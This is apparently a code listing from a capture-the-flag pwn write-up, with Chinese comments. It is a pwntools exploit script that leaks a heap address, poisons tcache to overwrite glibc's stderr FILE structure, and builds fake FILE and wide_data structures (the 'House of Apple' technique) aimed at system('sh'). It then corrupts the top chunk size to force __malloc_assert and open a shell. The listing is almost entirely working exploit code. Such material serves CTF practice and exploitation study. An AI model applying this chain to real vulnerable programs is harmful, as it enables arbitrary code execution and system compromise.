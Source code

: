 ```c


# 泄露heap地址并还原
add(index=0, size=0x20, content=b'aa')
delete(index=0)
show(index=0)
key = u64(sh.recv(5).ljust(8, b'\x00'))
leak_info('key', key)
heap_base = key << 12
leak_info('heap_base', heap_base)
add(index=0, size=0x20, content=b'aa')

# 修改stderr来满足利用条件
# stderr的指针可能在libc中也可能在程序地址空间上，若使用largebin attack来劫持指针时需要注意
# 此处我选择直接用tcache poisoning来模拟劫持stderr
add(index=0, size=0x200, content=b'aaa')
add(index=1, size=0x200, content=b'bbb')
delete(index=1)
delete(index=0)
edit(index=0, size=0x10, content=p64(key ^ libc.sym['_IO_2_1_stderr_']))
add(index=1, size=0x200, content=b'aaaa')

# 修改stderr如下：
payload = b'  sh\x00'
payload = payload.ljust(0x28, b'\x00') + p64(0) + p64(1)
payload = payload.ljust(0x88, b'\x00') + p64(heap_base + 0x810) # _lock，该地址上的值指向的值需要可写，建议设置一个为0的地址
payload = payload.ljust(0xa0, b'\x00') + p64(heap_base + 0x2a0) # wide_data
payload = payload.ljust(0xc0, b'\x00') + p64(0)
payload = payload.ljust(0xd8, b'\x00') + p64(libc.sym['_IO_wfile_jumps'] - 0x20)
add(index=0, size=0x200, content=payload)

# 此处选择打apple，将apple的chunk A和chunk B都设置为index为12的chunk：
payload = p64(0)
payload = payload.ljust(0x18, b'\x00') + p64(0)
payload = payload.ljust(0x30, b'\x00') + p64(0)
payload = payload.ljust(0x68, b'\x00') + p64(libc.sym['system'])
payload = payload.ljust(0xe0, b'\x00') + p64(heap_base + 0x2a0)
edit(index=12, size=0x100, content=payload)

# debug()

# 通过修改top chunk size来触发__malloc_assert
add(index=10, size=0x50, content=b'aaaa')
edit(index=10, size=0x60, content=b'a'*0x58 + p64(0x20))

sh.sendlineafter(choice_words, str(menu_add))
sh.sendlineafter(add_index_words, str(11))
sh.sendlineafter(add_size_words, str(0X30))
sh.interactive()
```
